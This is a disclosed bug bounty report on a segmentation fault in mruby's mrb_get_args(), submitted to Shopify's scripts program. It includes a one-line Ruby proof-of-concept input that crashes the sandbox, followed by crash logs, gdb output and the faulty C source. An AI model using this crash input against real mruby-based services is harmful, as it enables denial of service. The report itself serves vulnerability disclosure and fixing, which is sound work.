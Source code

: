 # SIGSEGV on mruby mrb_get_args() 

## Report Details
- **Report ID**: 191938
- **URL**: https://hackerone.com/reports/191938
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-12-17T12:58:18.757Z
- **Disclosed**: 2017-02-10T21:54:59.154Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
There is invalid memory read on mruby when calling to mrb_get_args() with invalid RArray which causes a SIGSEGV to denial of service.

The following code triggers the bug (attached as mrb_get_args.rb):

    l [],y(0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0)

Crash
---------------------
Here we can see the crash (full crash output attached)

    root@x:/home/x/Desktop/research/shopify/mruby-engine/bin# ./sandbox mrb_get_args.rb 
    ./sandbox:20: [BUG] Segmentation fault at 0x00015500000026
    ruby 2.2.5p319 (2016-04-26 revision 54774) [x86_64-linux-gnu]

    -- Control frame information -----------------------------------------------
    c:0003 p:---- s:0010 e:000009 CFUNC  :sandbox_eval
    c:0002 p:0186 s:0005 E:0002d8 EVAL   ./sandbox:20 [FINISH]
    c:0001 p:0000 s:0002 E:001f00 TOP    [FINISH]

    -- Ruby level backtrace information ----------------------------------------
    ./sandbox:20:in `<main>'
    ./sandbox:20:in `sandbox_eval'

    -- Machine register context ------------------------------------------------
     RIP: 0x00007f54e770d48c RBP: 0x00007f54e6281cb0 RSP: 0x00007f54e62788c0
     RAX: 0x000001550000000e RBX: 0x00007f54e7775467 RCX: 0x00007f54e62789b0
     RDX: 0x00007f54e628cf80 RDI: 0x00007f54e6278930 RSI: 0x00007f54e7775467
      R8: 0x00007f54e62789b8  R9: 0x0000000000000000 R10: 0x00007f54e627a4e0
     R11: 0x0000000000000000 R12: 0x00007f54e6286780 R13: 0x00007f54e6286a00
     R14: 0x00000000ffffffff R15: 0x00007f54e627a4e0 EFL: 0x0000000000010286

    -- C level backtrace information -------------------------------------------
    /usr/lib/x86_64-linux-gnu/libruby-2.2.so.2.2 [0x7f54ebdfb875]
    /usr/lib/x86_64-linux-gnu/libruby-2.2.so.2.2 [0x7f54ebdfbaac]
    /usr/lib/x86_64-linux-gnu/libruby-2.2.so.2.2 [0x7f54ebcd80cb]
    /usr/lib/x86_64-linux-gnu/libruby-2.2.so.2.2 [0x7f54ebd8e0ce]
    /lib/x86_64-linux-gnu/libc.so.6 [0x7f54eb8d9cb0]

Crash Debug
---------------------

    (gdb) r sandbox tmin_sample_2-0 
    Starting program: /usr/bin/ruby sandbox mrb_get_args.rb
    warning: the debug information found in "/lib64/ld-2.19.so" does not match "/lib64/ld-linux-x86-64.so.2"     (CRC mismatch).

    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    [New Thread 0x7ffff7ff5700 (LWP 8477)]
    [New Thread 0x7ffff1f6e700 (LWP 8642)]

    Program received signal SIGSEGV, Segmentation fault.
    [Switching to Thread 0x7ffff1f6e700 (LWP 8642)]
    0x00007ffff340248c in mrb_get_args (mrb=mrb@entry=0x7ffff1f6f4e0, format=format@entry=0x7ffff346a467 "n*")
        at /home/x/Desktop/shopify/research/mruby-engine/ext/mruby_engine/mruby/src/class.c:523
    523	    argc = a->len;
    (gdb) info reg
    rax            0x1550000000e	1464583847950
    rbx            0x7ffff346a467	140737274881127
    rcx            0x7ffff1f6d9b0	140737252874672
    rdx            0x7ffff1f81f80	140737252958080
    rsi            0x7ffff346a467	140737274881127
    rdi            0x7ffff1f6d930	140737252874544
    rbp            0x7ffff1f76cb0	0x7ffff1f76cb0
    rsp            0x7ffff1f6d8c0	0x7ffff1f6d8c0
    r8             0x7ffff1f6d9b8	140737252874680
    r9             0x0	0
    r10            0x7ffff1f6f4e0	140737252881632
    r11            0x0	0
    r12            0x7ffff1f7b780	140737252931456
    r13            0x7ffff1f7ba00	140737252932096
    r14            0xffffffff	4294967295
    r15            0x7ffff1f6f4e0	140737252881632
    rip            0x7ffff340248c	0x7ffff340248c <mrb_get_args+4028>
    eflags         0x10286	[ PF SF IF RF ]
    cs             0x33	51
    ss             0x2b	43
    ds             0x0	0
    es             0x0	0
    fs             0x0	0
    gs             0x0	0
    (gdb) list *$rip
    0x7ffff340248c is in mrb_get_args (/home/x/Desktop/shopify/research/mruby-engine/ext/mruby_engine/mruby/src/class.c:523).
    518	
    519	  va_start(ap, format);
    520	  if (argc < 0) {
    521	    struct RArray *a = mrb_ary_ptr(mrb->c->stack[1]);
    522	
    523	    argc = a->len;
    524	    array_argv = TRUE;
    525	  } else {
    526	    array_argv = FALSE;
    527	  }

Bactrace
---------------------
    (gdb) bt
     #0  0x00007ffff340248c in mrb_get_args (mrb=mrb@entry=0x7ffff1f6f4e0,     format=format@entry=0x7ffff346a467 "n*")
    at /home/x/Desktop/shopify/research/mruby-engine/ext/mruby_engine/mruby/src/class.c:523
     #1  0x00007ffff3404979 in mrb_bob_missing (mrb=0x7ffff1f6f4e0, mod=...)
    at /home/x/Desktop/shopify/research/mruby-engine/ext/mruby_engine/mruby/src/class.c:1521
     #2  0x00007ffff33ec183 in mrb_vm_exec (mrb=mrb@entry=0x7ffff1f6f4e0, proc=<optimized out>, proc@entry=0x7ffff1f77130, pc=0x7ffff1fced94)
    at /home/x/Desktop/shopify/research/mruby-engine/ext/mruby_engine/mruby/src/vm.c:1169
     #3  0x00007ffff33f26bc in mrb_vm_run (mrb=0x7ffff1f6f4e0, proc=0x7ffff1f77130, self=..., stack_keep=stack_keep@entry=0)
    at /home/x/Desktop/shopify/research/mruby-engine/ext/mruby_engine/mruby/src/vm.c:770
     #4  0x00007ffff33da2ee in mruby_engine_monitored_eval (data=0x7ffff1f6f3e0) at ../../../../ext/mruby_engine/eval_monitored.c:68
     #5  0x00007ffff7382184 in start_thread (arg=0x7ffff1f6e700) at pthread_create.c:312
     #6  0x00007ffff769237d in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:111

The crash happens at mruby-engine/ext/mruby_engine/mruby/src/class.c:523 which is built inline

    if (argc < 0) {
        struct RArray *a = mrb_ary_ptr(mrb->c->stack[1]);
        argc = a->len;  // Bug happens here
        array_argv = TRUE;
    } else {
        array_argv = FALSE;
    }

Impact
---------------------
Its impact seems to be DoS of the service running the sandbox service.

## Attachments
- mrb_get_args.rb
- sandbox.log
